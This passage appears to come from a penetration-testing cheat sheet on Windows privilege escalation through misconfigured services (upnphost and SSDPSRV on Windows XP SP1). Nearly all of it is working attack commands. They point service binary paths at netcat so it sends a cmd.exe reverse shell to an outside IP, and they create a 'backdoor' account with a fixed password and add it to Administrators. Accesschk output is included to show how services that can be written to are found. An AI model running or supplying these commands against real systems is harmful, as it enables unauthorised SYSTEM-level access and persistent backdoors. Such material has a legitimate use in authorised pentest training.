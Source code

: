 ### Example with Windows XP SP1 - upnphost

```
# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

If it fails because of a missing dependency, try the following commands.

```
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```

Using [`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe) from Sysinternals or [accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

```
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS

$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```
